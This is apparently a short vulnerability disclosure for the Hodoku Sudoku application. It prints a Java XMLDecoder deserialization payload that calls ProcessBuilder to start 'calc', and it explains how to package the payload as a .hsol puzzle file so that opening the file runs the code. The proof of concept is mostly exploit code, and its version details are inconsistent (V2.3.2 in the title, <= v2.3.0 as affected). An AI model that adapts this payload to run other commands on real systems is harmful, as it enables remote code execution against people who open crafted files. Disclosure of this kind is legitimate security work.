


# Hodoku V2.3.2 RCE
Affected Version: <= v2.3.0(latest release version)

Application: [Here](https://github.com/PseudoFish/Hodoku/releases/tag/2.3.0)


## Insecure Deserialization Vulnerability
```php
<java>
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1" >
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/>
    </object>
</java>
```
After saving the above code as PoC.txt, change the file extension to PoC.hsol and package the hsol file into a PoC.zip file. Change the zip file extension to PoC.hsol and click "File" -> "Open Puzzle File" to trigger the vulnerability.
## Exploit


